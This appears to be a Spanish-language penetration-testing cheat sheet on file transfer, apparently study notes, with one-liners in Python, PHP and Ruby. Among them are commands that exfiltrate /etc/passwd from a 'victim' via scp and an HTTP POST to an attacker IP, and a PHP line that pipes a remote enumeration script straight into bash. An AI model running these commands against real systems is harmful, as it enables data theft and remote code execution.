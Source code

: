 **Web Server alternativo**
```
# Python3
python3 -m http.server 8000

# Python2.7
python2.7 -m SimpleHTTPServer 8000

# PHP
php -S 0.0.0.0:8000

# Ruby
ruby -run -ehttpd . -p8000


#Descargar archivo desde el servidor alternativo
wget 192.168.49.128:8000/filetotransfer.txt
```

**SCP Upload** Si la victima permite conexiones salientes

```
scp /etc/passwd User@10.129.86.90:/home/User/
```


_____________________________________________________________________________

## Transferring Files with Code

**Transferencia de Archivos con comandos Python**
```python
#Python2
python2.7 -c 'import urllib;urllib.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh","LinEnum.sh")'

#Python3
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh","LinEnum.sh")'

#Pyhton3 (Con Rquest)
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

**Tranferencia de Archivos**
```php
#PHP Download with file_get_contents() - Se descarga el contenido de un archivo (file_get_contents) y se almacena en un directorio (file_put_contents) y se ejecuta en la misma linea de comando (-r)
php -r '$file=file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh");file_put_contents("LinEnum.sh",$file);'

#PHP Download with fopen() - Con el modulo fopen se abre la url, descarga y guarda el contenido de esta 
php -r 'const BUFFER=1024;$fremote=fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh","rb");$flocal=fopen("LinEnum.sh","wb");while($buffer=fread($fremote,BUFFER)){fwrite($flocal,$buffer);}fclose($flocal);fclose($fremote);'

#PHP Fileless (pipe to bash) - Se ejecuta Filess
php -r '$lines=@file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh");foreach($lines as $line){echo $line;}' | bash
```
**Ruby** (-e --> Ejecuciòn de comandos)
```Ruby
ruby -e 'require "net/http";File.write("LinEnum.sh",Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```